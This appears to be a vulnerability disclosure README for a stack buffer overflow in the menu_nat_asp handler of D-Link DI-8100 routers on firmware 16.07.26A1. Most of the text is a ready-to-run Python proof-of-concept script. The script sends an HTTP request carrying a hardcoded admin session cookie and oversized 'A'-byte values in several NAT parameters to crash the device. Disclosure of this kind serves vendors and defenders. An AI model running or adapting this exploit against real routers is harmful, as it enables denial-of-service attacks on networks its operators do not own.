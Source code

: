 
A critical stack-based buffer overflow vulnerability exists in the menu_nat_asp function of D-Link DI-8100 routers running firmware version 16.07.26A1. This vulnerability could allow remote attackers to cause a Denial of Service (DoS) condition by sending specially crafted HTTP requests to vulnerable devices.

![](./picture/1.png)

![](./picture/2.png)

![](./picture/3.png)

POC:
```python
import requests
from pwn import *
import time

def exploit(target_ip):
    auth_cookie = "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"
    
    timestamp = int(time.time())
    attack_url = f"http://{target_ip}/menu_nat.asp?_{timestamp}"
    pay =  b"A"*0x6000
	
    payload = {
		"opt": "mod",              
		"src": "bypass_rule",         
		"en": "1",                   
		"nat_inter_en": "0",        
		"interface": "0",         
		"out_addr": pay, 
		"in_addr": pay,
		"out_port": pay,
		"proto": pay,
    }
    
    headers = {
        "Host": target_ip,
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": auth_cookie,
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }
    
    try:
        response = requests.get(
            attack_url,
            params=payload,  
            headers=headers,
            timeout=5,
            verify=False
        )
        
        print(f"Response status code: {response.status_code}")
        print(f"Response length: {len(response.text)} bytes")
        
        print("\nResponse preview:")
        print(response.text[:500])
        
    except Exception as e:
        print(f"[!] The request failed: {str(e)}")

if __name__ == "__main__":
    TARGET_IP = "192.168.0.1"  
    exploit(TARGET_IP)
```

![](./picture/4.png)

![](./picture/5.png)

![](./picture/6.png)

![](./picture/7.png)

![](./picture/8.png)